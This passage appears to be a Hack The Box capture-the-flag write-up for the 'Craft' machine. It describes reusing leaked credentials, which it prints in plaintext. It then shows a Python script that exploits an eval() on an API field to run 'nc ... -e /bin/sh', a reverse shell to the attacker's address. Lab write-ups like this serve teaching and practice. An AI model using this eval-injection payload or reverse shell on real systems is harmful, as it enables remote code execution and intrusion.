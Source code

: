 They're still valid. Oh no, Dinesh. Why? I hope you haven't re-used these credentials for the git management service. Let's give them a try.

Sigh, they worked. I'm not sure what I expected. Let's dig around some more now that we have access to Dinesh's account.

## Initial Foothold
So a bit more digging around with Dinesh's account didn't reveal anything too important. However went through all the commits again we find a fix that Dinesh committed. Where he used an eval statement on user input. Oh, Dinesh.

Unfortunately we need credentials to use it. But guess who leaked their credentials earlier? Thanks, Dinesh. Now we just need to figure out how we can get RCE. Let's write a quick python script to leverage this and see if we can get a reverse shell.

```python
#!/usr/bin/python3

PAYLOAD = 'nc 10.10.14.41 4444 -e /bin/sh'

import requests
import json
from urllib3.exceptions import InsecureRequestWarning

# Ignore insecure https request warnings.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

base_url = 'https://api.craft.htb/api/'
creds = ('dinesh', '4aUh0A8PbVJxgd')

# Retrieve the authentication token.
r = requests.get(base_url+'auth/login', auth=creds, verify=False)

# Set our headers.
headers = {
    'X-Craft-API-Token': r.json()['token'],
    'Content-Type': 'application/json'
}

# Check whether token is valid.
r = requests.get(base_url+'auth/check', headers=headers, verify=False)
assert r.json()['message'] == 'Token is valid!'

# Craft payload.
payload = {
    'name': 'ghuul',
    'brewer': 'ghuul',
    'style': 'ghuul'
}
payload['abv'] = '__import__("os").system("%s") or 10' % PAYLOAD

# Make request with payload.
payload = json.dumps(payload)
requests.post(base_url+'brew/', headers=headers, data=payload, verify=False)
```
<br />
